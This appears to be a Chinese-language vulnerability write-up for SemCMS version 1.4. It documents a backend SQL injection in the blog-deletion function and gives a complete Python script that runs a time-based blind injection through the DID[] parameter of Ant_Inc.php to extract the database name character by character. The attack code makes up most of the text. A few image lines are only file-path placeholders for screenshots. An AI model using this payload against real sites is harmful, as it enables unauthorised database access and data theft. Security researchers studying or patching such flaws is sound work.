




### semcms

```
版本信息：1.4
```

#### 后台sql注入

登录进后台后进入到【信息管理】的【博客管理】，选中博客并且删除然后抓包



构造时间盲注，成功执行了sleep



获取数据库名长度



```
import requests

database = ""
header = {
    "X-Requested-With": "XMLHttpRequest",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "theme=default; frontLang=zh-cn; __bid_n=184ada2f395ab4dd774207; ECS[visit_times]=2; ishistory=1; gnolt4_admin_username=admin; PHPSESSID=ksj15tsgisn8b7fhq40uvkif11",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.42"
}
# proxier = {
#     "http": "127.0.0.1:8080"
# }

for i in range(1, 7):
    for a in range(47, 127):
        payload = "http://192.168.81.116:12342/hXd0MR_AhF/Ant_Inc.php?action=Clear&sort=info&lgid=1"
        data = "DID[]=15 and if(ascii(substr(database(),{},1))={},sleep(3),1)".format(i, a)
        re = requests.post(url=payload, data=data, headers=header, timeout=10)
        # print(re.elapsed.total_seconds())
        if re.elapsed.total_seconds() > 6:
            database += chr(a)
            print(database)
```

